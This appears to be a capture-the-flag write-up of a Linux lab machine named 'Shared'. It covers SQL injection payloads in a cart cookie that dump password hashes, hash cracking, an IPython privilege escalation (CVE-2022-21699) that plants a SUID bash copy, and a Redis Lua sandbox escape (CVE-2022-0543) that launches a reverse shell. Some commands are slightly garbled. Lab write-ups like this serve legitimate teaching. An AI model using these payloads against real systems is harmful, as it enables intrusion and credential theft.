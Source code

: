 # Shared
### Medium linux box

##### Begin with an nmap scan:
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FvunymQaGuIELhAVfpFNU%2Fnmapscan.jpg?alt=media&token=36d6168c-845f-4150-be68-ecfc1a51dd68 "nmap results")

##### Access port 80 and navigate to the checkout page. Observe a URL-encoded cookie called `custom_cart=`. Decode the cookie and take note of its format: `<Item>:<Quantity>`
The cookie turned out to be vulnerable to SQL injection (SQLi). I found Portswigger's SQLi courses particularly helpful. Don't forget to URL encode the payload.
##### The cookie ended up being vulnerable to SQLi. Portswigger's sqli courses helped a lot here. URL encode the payload.

#### `' UNION SELECT 1 -- -` No values
#### `' UNION SELECT 1,2 -- -` No values
#### `' UNION SELECT 1,2,3 -- -` Values are reflected!
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FiMA8il58YnoiSfSBNhwv%2FBURPCOOKIESQL.jpg?alt=media&token=ca2f7673-855a-4e73-9e13-626d989795d6)

### SQLi payloads:
##### Find current database:
#### `' UNION SELECT 1,database(),3 -- -`
##### Get tables in checkout database:
#### `'UNION SELECT 1,group_concat(table_name),3 from information_schema.tables WHERE table_schema='checkout' -- -`
##### Enumerate columns in user table from the checkout database:
#### `' UNION SELECT 1,group_concat(column_name),3 from information_schema.tables WHERE table_schema='user' -- -`
##### Get values from the user table:
#### `' UNION SELECT 1,group_concat(id, ':', password),3 from checkout.user -- -`

##### Eventually, a hash is obtained that can be cracked using hashcat.
#### `hashcat -a -0 -m -0 <hash> <wordlist>`

##### ssh into the james_mason account with the cracked password

### Privilege Escalation
##### Transfer pspy64 and linpeas to the machine to observe running processes and identify sensitive files.
##### Discover ipython and an intriguing file, `/opt/scripts_review`. It exposes a cron job executed every minute by `dan_smith`.
```bash
/bin/sh -c
/usr/bin/pkill ipython;
cd opt/scripts review/ && /usr/local/bin/ipython
```

##### Further investigation reveals CVE-2022-21699, an "Arbitrary code execution vulnerability in IPython that stems from IPython executing untrusted files in CWD. This vulnerability allows one user to run code as another."
##### 1. Based on the cron job, ipython is executed at the `/opt/scripts_review` directory where we have write access.
##### 2. We need to create `/opt/scripts_review/profile_default` and `opt/scripts_review/profile_default/startup`.
##### 3. Generate a Python script to set the SUID bit of `dan_smith` to `/bin/bash`, allowing us to escalate privileges at `/opt/scripts_review/profile_default/startup`.

   
#### Create a script that creates a directory and another Python script that executes `script.sh`
```bash
james_mason@shared:/tmp$ cat script.sh
mkdir -m 777 /opt/scripts_review/profile_default
mkdir -m 777 /opt/scripts_review/profile_default/startup
echo 'import os; os.system("cp /bin/bash /tmp/danbash; chmod u+s /tmp/danbash")' > /opt/scripts_review/profile_default/startup/foo.py
james_mason@shared: /tmp$ chmod +x script.sh
james_mason@shared: /tmp$ ./script.sh
```
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FiHCOT3FpQ65fr8Iq6a5t%2Fimage.png?alt=media&token=188fb7a8-1648-49d5-bfdd-b4b9e7dc80cb "script.sh")

##### Continuously run `script.sh` because there is a root cron job that deletes everything in `scripts_review`. Wait for the cron job to execute and create `danbash`. Then execute `danbash`.

```bash
james_mason@shared: /tmp$ ./danbash -p
```
##### From there you can copy the ssh key for `dan_smith` and ssh into the account for a better shell
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FRENhkyRf5bpOe4mSigPK%2Fimage.png?alt=media&token=d22f0e92-ee4f-48ae-bfa5-dd01ac9eb785 "id_rsa")

### Redis Lua Sandbox Escape and RCE to Obtain Root
##### Upload and execute linpeas, which reveals a readable file at `/usr/local/bin/redis_connector_dev`.
It is an ELF file that, when executed, connects to `redis-cli` using a password and then runs an `INFO` command.
Transfer `redis_connector_dev` to your machine, run a `netcat` listener, and you should obtain a password.
Refer to the helpful guide below for the exploit:

##### Helpful guide to the exploit below
[redis exploit](https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.md)

##### Due to a packaging issue on Debian/Ubuntu, a remote attacker with the ability to execute arbitrary Lua scripts could escape the Lua sandbox and execute arbitrary code on the host.
##### Authenticate and connect to `redis-cli`. Use the command `AUTH <password>` and execute the command again. Write a reverse shell to be run from the server.
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2F0cOyfwWEIdhYqzkPVu3f%2Fimage.png?alt=media&token=203448cb-a4c6-48a0-a8e9-02ee9e3f0a6c "python reverse shell")

##### Start a netcat listener and execute the reverse shell to obtain a root shell.
```bash
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("python3 /home/dan_smith/shell.py", "r"); local res = f:read("*a"); f:close(); return res' 0 
```




